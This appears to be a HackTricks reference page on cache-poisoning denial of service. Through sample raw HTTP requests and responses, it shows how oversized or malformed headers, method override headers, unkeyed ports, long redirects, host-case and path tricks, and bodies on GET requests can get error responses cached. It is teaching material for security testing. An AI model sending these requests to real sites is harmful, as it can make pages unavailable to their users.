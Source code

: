# Cache Poisoning to DoS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="danger" %}
In this page you can find different variations to try to make the **web server respond with errors** to requests that are **valid for the cache servers**
{% endhint %}

* **HTTP Header Oversize (HHO)**

Send a request with a header size larger than the one supported by the web server but smaller than the one supported by the cache server. The web server will respond with a 400 response which might be cached:

```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```

* **HTTP Meta Character (HMC) & Unexpected values**

Send a header that contain some **harmfull meta characters** such as `\n` and `\r`. In order the attack to work you must bypass the cache first.

```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```

A badly configured header could be just `\:` as a header.

This could also work if unexpected values are sent, like an unexpected Content-Type:

```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```

* **Unkeyed header**

Some websites will return an error status code if they **see some specific headers i**n the request like with the _X-Amz-Website-Location-Redirect: someThing_ header:

```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```

* **HTTP Method Override Attack (HMO)**

If the server supports changing the HTTP method with headers such as `X-HTTP-Method-Override`, `X-HTTP-Method` or `X-Method-Override`. It's possible to request a valid page changing the method so the server doesn't supports it so a bad response gets cached:

```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```



* **Unkeyed Port**

If port in the Host header is reflected in the response and not included in the cache key, it's possible to redirect it to an unused port:

```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```

* **Long Redirect DoS**

Like in the following example, x is not being cached, so an attacker could abuse the redirect response behaviour to make the redirect send a URL so big that it returns an error. Then, people trying to access the URL without the uncached x key will get the error response:

```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```

* **Host header case normalization**

The host header should be case insensitive but some websites expect it to be lowercase returning an error if it's not:

```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```

* **Path normalization**

Some pages will return error codes sending data URLencode in the path, however, the cache server with URLdecode the path and store the response for the URLdecoded path:

```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```

* **Fat Get**

Some cache servers, like Cloudflare, or web servers, stops GET requests with a body, so this could be abused to cache a invalid response:

```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden 
Cache: hit
```

## References

* [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
* [https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
